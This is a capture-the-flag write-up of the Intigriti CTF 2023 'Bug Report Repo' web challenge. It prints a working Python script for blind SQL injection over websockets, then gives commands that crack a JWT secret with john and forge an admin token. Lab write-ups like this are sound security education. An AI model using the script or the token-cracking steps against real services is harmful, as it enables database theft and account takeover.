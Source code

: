 ```yaml
---
title: Intigriti CTF 2023 Writeup [WEB, PWN]
author: H0j3n
date: 2023-11-19 00:00:00
categories: [ctf]
tags: [ctf,writeup]
render_with_liquid: false
---
```


![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_1.png)

Link to archive challenges: 

- [https://github.com/sajjadium/ctf-archives/tree/main/ctfs/1337UP/2023](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/1337UP/2023)

# Category : Web

## Web : Bug Report Repo

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_2.png)

Browsing the web challenge, we will encounter with a page that show the "Bug Reports". There is one visible search box that we can use to check the report **status** by using **BUG ID**

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_3.png)

When we enter `BUG ID == 1` we can see the page highligted the first row but where is the user `Alice` coming from? Probably its query something behind this. 

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_4.png)

How about if we try to insert single quote `'` instead? We got an error? Is there SQL Injection involved in here?

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_5.png)

Let's try put a custom query to make it correct query. 

**Correct Response**

```cs
1 OR 1=1
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_6.png)

**Wrong Response**

```cs
1 AND 1=2
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_7.png)

Since we know it involve **SQL INJECTION**, next step is to find where is the flag located? It was mentioned in the challenge's description that it received a **CRITICAL** bug but it was not shown in the system. When we try to check on `BUG ID == 11` we receive an unusual user in the response.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_8.png)

Probably we will get hints when we look into this user's description. To do that we need exploit the **SQL Injection** and extract the description of bug id equal to 1. We can create an automation script to extract it. We also identified that its using *WEBSOCKETS* for the request.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_9.png)

Below are the full scripts to extract the description of `BUGID == 11`

```python
import string, base64
from websockets.sync.client import connect

def sqli(ws,q_left,chars):	
    data = """{"id":"11 and (%s='%s')"}""" % (q_left, chars)
    ws.send(data)
    temp = ws.recv()
    return "Open" in temp

def exploit_websockets(TARGET):
    dumped = ""
    with connect(TARGET) as ws:
        sql_template = "SELECT substr(description, %s, 1)"
        i = 1
        while True:
            for chars in string.printable:
                if sqli(ws,sql_template%i,chars):
                    dumped += chars
                    print(dumped)
                    i+=1
                    break
            return
        
if __name__ == "__main__":
    TARGET = "wss://bountyrepo.ctf.intigriti.io/ws"
    exploit_websockets(TARGET)
```

Extracted : `crypt0:c4tz on /4dm1n_z0n3, really?`

Browsing `/4dm1n_z0n3` will get us into a secure admin login page. 

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_10.png)

Using the credentials we found will get us into this page. Sadly our user `crypt0` don't have the permission to view the config key.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_11.png)

When we look at the cookies, it looks like **JWT** and yes it is. It using `alg == HS256`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_12.png)

By reading in the [Hacktricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555) we probably need to crack the JWT and find the secret key? Let's give it a try using [jwtcrack](https://github.com/Sjord/jwtcrack)

> `Algorithm HS256` : Uses the secret key to sign and verify each message
{: .prompt-info }

```
# jwt2john
./jwt2john.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I" > hash

# john
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Found : `catsarethebest`

Next, we can easily modify our **JWT** in [here](https://jwt.io/) with the secret key we found.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_13.png)

And we get the flag!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/13_intigritictf_2023/intigriti_14.png)

Flag : `INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}`